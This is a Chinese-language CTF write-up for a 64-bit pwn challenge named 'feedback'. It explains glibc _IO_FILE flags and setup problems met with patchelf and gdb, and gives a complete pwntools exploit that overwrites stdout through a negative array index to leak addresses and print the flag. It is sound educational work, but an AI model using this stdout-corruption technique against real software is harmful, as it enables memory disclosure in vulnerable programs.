 # feedback

## 文件分析

下载`feedback`, 保护全开  
ghidra分析为64位程序

缓冲区没有溢出，所以没法利用栈溢出等，因为可以访问stdout等，故利用`_IO_FILE`  
本题是我第一次做`_IO_FILE`，详细写写

## 前置知识

`_IO_FILE`中存在`_flags`，各标志位含义如下

```c
/* Magic numbers and bits for the _flags field.
   The magic numbers use the high-order bits of _flags;
   the remaining bits are available for variable flags.
   Note: The magic numbers must all be negative if stdio
   emulation is desired. */
#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40 /* Don't call close(_fileno) on cleanup. */
#define _IO_LINKED 0x80 /* Set if linked (using _chain) to streambuf::_list_all.*/
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400 /* Set if put and get pointer logicly tied. */
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```

pwn中常用0xfbad1800

puts, sprintf, printf等包装函数，最后都会调用write，可以对stdout结构体进行修改，
实现leak；其中结构体中的`_chain`，在stdout中会指向stdin；在执行包装输出函数前，
会打印`_IO_write_base`到`_IO_write_ptr`范围内的字符；初始化后`_IO_write_*`
会指向结构体中的`_shortbuf`，通过覆盖最后一个字节，可以将base指向`_chain`

## 踩过的坑

一开始在我本地上跑的时候，flag是无法写入的:
read函数返回-1(val of rax)，使用`p *__errno_location()`查询errno得知，
14: Bad Address，本身读入的地址就没有w权限

后来发现zip包里含有ld和libc，
可以patchelf（这里我把这两各文件放在./libs下）

> Arch Linux可以直接pacman(yay)安装patchelf哦

gdb中要重启程序不需要q，先kill再run/start即可

```shell
patchelf patchelf --set-interpreter ./libs/ld-2.31.so --replace-needed libc.so.6 ./libs/libc-2.31.so feedback
chmod +x ./libs/* # 一定要+x！不然没有权限执行
```

patch后gdb调试发现这时flag就会放到一个匿名内存段，不会崩溃了

## 逆向

反汇编后得知，flag放在比`puts`高0x16d2e0的地址，而`puts`的地址是随机化的，
因此可以获取libc中的任意地址然后偏移取得flag地址

在vuln函数中要输入数组索引，而索引被限定为小于4；观察.bss段布局可知，
stdout地址比`feedback_list`低，将索引输入为-8，就可以覆盖stdout写入

gdb调试后可以知道stdin与flag位置的差值

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 37325)

# payload 1
sh.sendline(b'-8') # locate stdout ptr
payload = p64(0xfbad1800) # _flags though 32b data, takes 64b space
payload += p64(0) # _IO_read_ptr，stdout不涉及输入，改成0就可以
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += b'\x08' # _IO_write_base first byte, points to _chain
# write _chain (stdin) out
sh.sendlineafter(b'back.', payload)

flag = u64(sh.recvuntil(b'Your')[1:7]+b'\0\0') - 0x1980 + 0x6700 # get stdin addr and shift to flag addr

# payload 2
sh.sendline(b'-8') # locate stdout ptr
payload = payload[:-1] # remove '\x08'
payload += p64(flag) # _IO_write_base
payload += p64(flag + 0x30) # _IO_write_ptr, unknown flag length, assuming 48
# write flag out
sh.sendlineafter(b'back.', payload)
sh.interactive()
```

Done.
